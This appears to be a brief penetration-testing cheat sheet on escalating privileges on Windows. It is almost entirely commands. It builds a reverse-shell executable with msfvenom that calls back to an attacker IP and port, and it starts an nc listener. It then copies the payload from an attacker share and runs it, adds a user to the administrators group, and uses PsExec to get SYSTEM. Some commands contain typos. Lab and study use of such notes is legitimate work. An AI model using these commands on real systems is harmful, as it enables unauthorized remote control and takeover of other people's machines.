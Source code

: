 - - -

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=9090 -f exe -o reverse.exe
```

```sh
nc -nvlp 9090
```

```cmd
cd to/writable/directory
```

```cmd
copy \\our-ip\reverse.exe .
```

open admin's cmd If you can directly do it.

```cmd
.\reverse.exe
```

Alternatively,  **If RDP is enable** or you have permissions to enable it.

we can **ADD our new USER** to the administrators gourp and then spawn an administrator commnd prompt via GUI.

```cmd
net localgroup admintrators piyush /add
```

To escalate from an admin user to full SYSTEM privileges, you can use the “PsExec” tool from windows sysinternals.

```cmd
.\PsExec64.exe -accepteula -i -s C:\path\to\reverse.exe
```

- - -

